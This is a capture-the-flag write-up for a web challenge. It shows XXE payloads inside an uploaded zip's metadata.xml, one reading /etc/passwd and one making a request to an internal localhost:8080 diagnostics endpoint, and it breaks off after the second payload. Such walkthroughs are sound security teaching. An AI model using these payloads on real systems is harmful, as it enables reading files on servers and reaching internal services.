






When accessing the page, we can see this management system. I downloaded the zip and uploaded it, to see what it does:


It is parsing the files inside the zip, and prints something like "Configured by auther: <authe_name>".

We can see it has some simple file called `metadata.xml`:



It looks like basic `XXE` challenge, let's take the payload from here [https://avishaigonen123.github.io/CTF_writeups/root-me/Web-Server/XML-External-Entity.html](https://avishaigonen123.github.io/CTF_writeups/root-me/Web-Server/XML-External-Entity.html), testing for `LFI` using `XXE`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [  
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>

<sabich-config>
    <version>1.2.0</version>
    <author>&xxe;</author>
</sabich-config>
```

Let's zip this and upload it:



and then uploading:


We got the `LFI`. I checked in the source code of the webpage, we have this comment:

```html
<!-- DEBUG: System diagnostic telemetry and logging moved to /internal/diagnostics API. Restricted to localhost binds only. -->
```

When trying to access the endpoint `/internal/diagnostics`, we get this message:



Okay, I want to access the url: `http://localhost/internal/diagnostics`. However, we don't know on which port the internal service is running, it probably on something like `8000` or `8080`, usual ports.

So, let's try it:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [  
<!ENTITY xxe SYSTEM "http://localhost:8080/internal/diagnostics">]>

<sabich-config>
    <version>1.2.0</version>
    <author>&xxe;</author>
</sabich-config>
```

